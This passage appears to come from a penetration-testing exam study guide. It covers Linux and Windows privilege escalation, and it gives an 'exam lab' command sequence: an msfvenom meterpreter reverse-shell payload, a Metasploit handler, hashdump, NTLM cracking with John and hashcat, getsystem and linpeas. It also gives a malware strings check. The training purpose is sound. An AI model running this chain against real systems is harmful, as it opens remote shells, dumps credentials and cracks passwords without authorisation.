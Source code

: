- **Always check**: `sudo -l` on Linux targets
- **Critical files**: `/etc/passwd`, `/etc/shadow`, SAM database
- **Exam trick**: Use `--show` in John to view cracked passwords
- **Must-know exploits**: Dirty Cow, CVE-2021-4034 (PwnKit)

### Real-World Exam Lab

Task: Compromise Windows Target

```
1. msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > payload.exe
```

```
2. msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 10.10.10.10; run"
```

```
3. meterpreter > hashdump
```

```
4. john --format=NT hashes.txt --wordlist=rockyou.txt
````

```
5. meterpreter > getsystem
```

# Run these until automatic:

```
john --format=NT hashes.txt --wordlist=rockyou.txt
```

```
hashcat -m 1000 ntlm_hashes.txt rockyou.txt --force
```

```
meterpreter > getsystem
```

```
./linpeas.sh -t
```
  
**[Back to top](#top)**
___

## Module 07: Malware Threats

### 1. Trojan Analysis (Exam Weight: 25%)

Static Analysis

```
strings malware.exe | grep -i -E "password|http|key"  # Extract cleartext artifacts
```
